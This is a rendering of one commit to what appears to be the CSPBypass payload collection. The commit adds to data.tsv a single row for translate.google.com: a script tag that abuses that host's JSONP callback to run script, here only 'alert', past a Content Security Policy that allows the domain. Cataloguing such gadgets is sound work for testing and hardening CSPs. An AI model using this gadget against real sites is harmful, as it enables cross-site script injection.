

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added translate.google.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 67: translate.google.com | <script src="https://translate.google.com/translate_a/element.js?cb=alert"></script> | renniepak
```
